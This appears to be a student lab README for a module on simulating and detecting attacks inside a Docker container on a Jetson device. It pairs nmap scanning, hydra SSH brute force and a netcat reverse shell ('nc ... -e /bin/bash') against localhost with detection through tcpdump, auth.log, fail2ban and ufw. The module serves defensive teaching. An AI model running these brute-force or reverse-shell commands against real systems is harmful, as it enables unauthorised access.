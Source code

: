 💣 Simulated Attacks & Detection on Jetson

🎯 Purpose

This module introduces basic offensive cybersecurity concepts in a safe, controlled container environment. Students simulate attacks and practice detection using the same Linux tools used for defense.

⚠️ These exercises should only be done in isolated or approved lab environments.

⸻

🔧 Tools Overview (Used for Simulation)

Tool	Purpose
nmap	Port scanning and host discovery
hydra	Brute-force login attacks
netcat	Port listener / reverse shell testing
tcpdump	Capture and analyze traffic
fail2ban	Block brute-force attempts
ufw	Block/allow ports and IPs


⸻

🐳 Container Setup for Simulation

Use a Docker container to safely run both attacks and detection tools.

Step 1: Create a container with all tools

docker run -it --rm --network host --name cyberlab \
  -v $(pwd)/labdata:/labdata \
  ubuntu:22.04 /bin/bash

Step 2: Install required tools inside the container

apt update && apt install -y nmap netcat tcpdump ufw fail2ban hydra openssh-server

Set a test password for SSH access:

echo 'student:password123' | chpasswd
service ssh start


⸻

⚔️ Simulated Attack Scenarios

🔎 1. Port Scanning with nmap

nmap -sS -p- 127.0.0.1

Use ss on the host to detect:

ss -tulnp

🔑 2. Brute Force with hydra

hydra -l student -P /labdata/common_passwords.txt ssh://127.0.0.1

Simultaneously monitor with:

tail -f /var/log/auth.log

🐚 3. Reverse Shell Simulation with netcat

On host:

nc -lvnp 4444

In container:

nc 127.0.0.1 4444 -e /bin/bash

Use tcpdump on the host:

sudo tcpdump -i lo port 4444


⸻

🧱 Defense Tools in Action

🛡️ Use ufw to block incoming attacks

ufw enable
ufw deny 22

🚫 Use fail2ban to ban after failed SSH login

cat /etc/fail2ban/jail.conf | grep ssh
systemctl start fail2ban

Check bans:

fail2ban-client status sshd


⸻

🧪 Lab Session: Simulate & Detect in Container

✅ Objective
	•	Simulate port scanning, brute force, and shell attacks
	•	Monitor with defense tools
	•	Practice response and cleanup

🛠️ Workflow
	1.	Launch the container
	2.	Start SSH and monitoring tools
	3.	Simulate scan + brute force
	4.	Use fail2ban, ufw, and tcpdump to detect and respond

📋 Deliverables
	•	Screenshots of hydra, tcpdump, and fail2ban in action
	•	Summary: which tools detected which attacks

⸻

🔐 Ethical Reminder
	•	Never attack real systems without permission
	•	These skills are for learning defense and securing your own systems

